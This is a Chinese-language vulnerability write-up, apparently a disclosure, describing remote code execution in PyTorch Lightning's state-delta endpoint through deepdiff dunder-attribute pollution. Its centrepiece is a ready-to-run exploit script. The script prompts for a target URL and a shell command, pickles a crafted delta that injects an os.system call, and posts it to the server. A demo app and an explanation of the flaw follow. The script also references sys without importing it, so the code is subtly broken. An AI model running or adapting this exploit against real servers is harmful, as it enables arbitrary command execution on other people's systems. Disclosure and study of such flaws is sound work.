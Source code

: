 ### 通过属性/类污染导致RCE：Lightning AI 的 PyTorch Lightning 状态修改端点漏洞  

---

### 描述  
此漏洞的根本原因是**深度差异库（deepdiff）**在反序列化用户输入时，未正确处理双下划线（dunder）属性。  
PyTorch Lightning 使用 `deepdiff.Delta` 对象根据前端操作修改应用状态，设计目标是仅允许特定状态变量的修改。尽管 deepdiff 提供了沙盒化的 `pickle` 反序列化器，并限制了输入白名单以防止代码执行，但仍存在以下问题：  
1. **dunder 属性绕过**：通过引号可以绕过 deepdiff 的对 dunder 属性的防护机制。  
2. **序列化对象构造漏洞**：攻击者可以构造序列化的 delta 数据，该数据既通过了白名单检查，又包含了 dunder 属性。  

因此，攻击者能够利用此漏洞通过属性污染访问其他模块、类和实例，最终完全控制应用状态（RCE）。  
**默认配置的 PyTorch Lightning 应用均会受到此漏洞的影响**，因为 delta 接口默认启用。

---

### 漏洞复现（概念验证 - Proof of Concept）

#### 漏洞脚本（exploit.py）  
以下脚本通过发送构造的 delta 数据，利用属性污染实现 RCE。

```python
import requests, time, pickle, pickletools
from collections import namedtuple
from ordered_set import OrderedSet

# 沙盒绕过和工具类定义
OrderedSet.__reduce__ = lambda self, *args: (OrderedSet, ())
class Root:
    def __init__(self, path=None):
        self.path = path or []

    def __getitem__(self, item):
        return self.__class__(self.path + [('GET', repr(item))])

    def __getattr__(self, attr):
        return self.__class__(self.path + [('GETATTR', repr(attr) if attr.startswith('__') else attr)])
    
    def __reduce__(self, *args):
        return str, (str(self),)

server_host = 'http://127.0.0.1:7501'
server_host = input(f'LightningApp 根URL [{server_host}]: ') or server_host
command = input('输入命令 [id]: ') or 'id'

def send_delta(d):
    # 发送 delta 数据到远程主机
    requests.post(server_host + '/api/v1/delta', headers={
        'x-lightning-type': '1',
        'x-lightning-session-uuid': '1',
        'x-lightning-session-id': '1'
    }, json={"delta": d})

# 构造要注入并执行的代码
injected_code = f"__import__('os').system({command!r})"

root = Root()

# 构造 delta 数据
delta = {
    'attribute_added': {
        root['function']: namedtuple,
        sys.modules['lightning.app'].api.request_types._DeltaRequest.args: (injected_code,),
    }
}

# 序列化并发送 payload
payload = pickletools.optimize(pickle.dumps(delta, 1)).decode() \
    .replace('__builtin__', 'builtins') \
    .replace('unicode', 'str')

send_delta(payload)
time.sleep(0.2)
send_delta({})
```

#### 演示应用代码（app.py）
```python
from lightning.app import LightningFlow, LightningApp

class SimpleFlow(LightningFlow):
    def run(self):
        pass

app = LightningApp(SimpleFlow())
```

---

### 核心漏洞点解析
1. **允许序列化数据传入 `/api/v1/delta`**：该接口缺乏对输入的严格检查。  
2. **不正确的 dunder 属性处理**：攻击者通过 `repr()` 绕过 deepdiff 的限制，访问内部对象。  
3. **属性污染链条**：最终修改应用内部结构，操控核心逻辑。

---

### 总结  
此漏洞允许攻击者利用 delta 接口实现远程代码执行（RCE），影响所有默认配置的 PyTorch Lightning 应用。需及时修复以避免潜在风险。
